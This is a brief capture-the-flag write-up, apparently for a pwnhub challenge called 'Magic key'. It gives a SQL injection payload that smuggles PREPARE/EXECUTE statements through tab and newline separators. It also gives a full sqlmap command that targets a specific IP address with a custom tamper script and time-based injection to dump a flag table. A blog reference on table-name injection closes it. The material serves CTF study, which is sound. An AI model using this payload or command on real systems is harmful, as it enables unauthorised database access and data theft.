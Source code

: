 # Magic key

## Point

`"anime`\t`where\t@s:=%s;PREPARE\n\tx\tFROM\t@s;\nEXECUTE\tx;"`

## Exp

```shell
sqlmap -u 'http://139.217.112.201/index.php' --data 'i=1&v=1*' --tamper=./tamper4pwnhub.py --technique=T -D acg -T '`acg_fff5lll1ll@g`' -C flag --dump
```

## Reference

> http://www.yulegeyu.com/2017/04/16/%E5%BD%93%E8%A1%A8%E5%90%8D%E5%8F%AF%E6%8E%A7%E7%9A%84%E6%B3%A8%E5%85%A5%E9%81%87%E5%88%B0%E4%BA%86Describe%E6%97%B6%E7%9A%84%E5%87%A0%E7%A7%8D%E6%83%85%E5%86%B5%E3%80%82/